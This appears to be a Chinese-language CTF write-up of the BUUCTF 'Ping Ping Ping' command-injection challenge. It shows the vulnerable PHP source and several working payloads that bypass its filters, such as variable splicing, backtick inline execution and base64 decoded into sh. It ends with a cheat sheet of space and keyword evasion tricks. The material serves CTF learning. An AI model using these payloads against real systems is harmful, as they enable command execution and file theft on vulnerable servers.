




# BUUCTF Ping Ping Ping
- 关键词 命令绕过 
## 题目描述


## 解题思路
页面提示了ip=xxx，题目又叫ping，所以直接传入参数`ip=127.0.0.1`，果然出现了响应

尝试直接拼接:`ip=127.0.0.1;ls` 成功显示出了文件

尝试直接cat flag.php
结果显示有过滤空格

尝试绕过空格的方法
- 附常见的绕过空格的方法
```shell
${IFS}$9
{IFS}
$IFS
${IFS}
$IFS$1 //$1改成$加其他数字貌似都行
IFS
< 
<> 
{cat,flag.php}  //用逗号实现了空格功能，需要用{}括起来
%20   (space)
%09   (tab)
X=$'cat\x09./flag.php';$X       （\x09表示tab，也可以用\x20）
```
逐一尝试，发现`$IFS$1`是可以的，但是显示过滤了flag什么的关键词，不妨直接cat index.php看看

显示出来了源码
```php
<?php
if(isset($_GET['ip'])){
  $ip = $_GET['ip'];
  if(preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{1f}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match)){
    echo preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{20}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match);
    die("fxck your symbol!");
  } else if(preg_match("/ /", $ip)){
    die("fxck your space!");
  } else if(preg_match("/bash/", $ip)){
    die("fxck your bash!");
  } else if(preg_match("/.*f.*l.*a.*g.*/", $ip)){
    die("fxck your flag!");
  }
  $a = shell_exec("ping -c 4 ".$ip);
  echo "<pre>";
  print_r($a);
}
```

我们可以选择变量拼接的方法绕过
payload为`?ip=127.0.0.1;a=g;cat$IFS$1fla$a.php`

## CTF中常见的命令绕过的姿势
### 命令联合执行
|  连接词   | 释义  |
|  ----  | ----  |
| `;`  | 前面的命令执行完以后，继续执行后面的命令 |
| `\|`  | 管道符，将上一条命令的输出作为下一条命令的参数（显示后面的执行结果） |
| `\|\|`  | 当前面的命令执行出错时（为假）执行后面的命令 |
| `&`  | 将任务置于后台执行 |
| `&&`  | 前面的语句为假则直接出错，后面的也不执行，前面只能为真 |

比如上面的题目也可以使用`|` 进行命令拼接：


### 关键词的绕过
#### 1、绕过空格过滤的方法
```shell
${IFS}$9
{IFS}
$IFS
${IFS}
$IFS$1 //$1改成$加其他数字貌似都行
IFS
< 
<> 
{cat,flag.php}  //用逗号实现了空格功能，需要用{}括起来
%20   (space)
%09   (tab)
X=$'cat\x09./flag.php';$X       （\x09表示tab，也可以用\x20）
```

#### 2、禁用 cat 的方法
```shell
ps:有时会禁用cat:
解决方法是使用tac反向输出命令：
linux命令中可以加\，所以甚至可以ca\t /fl\ag
```
### 3.内联执行绕过
内联，就是将反引号内命令的输出作为输入执行。
```
?ip=127.0.0.1;cat$IFS$9`ls`

$IFS在Linux下表示为空格
$9是当前系统shell进程第九个参数持有者，始终为空字符串，$后可以接任意数字
这里$IFS$9或$IFS垂直，后面加个$与{}类似，起截断作用
```
这样就可以直接cat出所有ls列出的文件了

## 本题的多种解法
### 变量拼接
```
?ip=127.0.0.1;a=g;cat$IFS$1fla$a.php
```

### 内联执行
```
?ip=127.0.0.1;cat$IFS$9`ls
```

### Base64编码
```
?ip=127.0.0.1;echo$IFS$1Y2F0IGZsYWcucGhw|base64$IFS$1-d|sh
````

## 总结
类似题目的解题方法总结：
```shell
cat fl*  用*匹配任意 
cat fla* 用*匹配任意
ca\t fla\g.php        反斜线绕过
cat fl''ag.php        两个单引号绕过
echo "Y2F0IGZsYWcucGhw" | base64 -d | bash      
//base64编码绕过(引号可以去掉)  |(管道符) 会把前一个命令的输出作为后一个命令的参数

echo "63617420666c61672e706870" | xxd -r -p | bash       
//hex编码绕过(引号可以去掉)

echo "63617420666c61672e706870" | xxd -r -p | sh     
//sh的效果和bash一样

cat fl[a]g.php       用[]匹配

a=fl;b=ag;cat $a$b          变量替换
cp fla{g.php,G}    把flag.php复制为flaG
ca${21}t a.txt     利用空变量  使用$*和$@，$x(x 代表 1-9),${x}(x>=10)(小于 10 也是可以的) 因为在没有传参的情况下，上面的特殊变量都是为空的 

```
